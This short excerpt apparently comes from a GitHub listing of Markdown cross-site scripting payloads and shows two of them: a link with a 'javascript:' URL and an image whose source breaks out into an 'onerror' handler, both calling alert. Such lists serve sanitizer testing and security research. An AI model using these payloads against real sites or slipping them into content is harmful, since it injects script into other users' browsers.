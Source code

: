 ____
https://github.com/cujanovic/Markdown-XSS-Payloads

Link
```markdown
[a](javascript:alert``)
```

Image
```markdown
![a](x"onerror=alert(1);//)
```



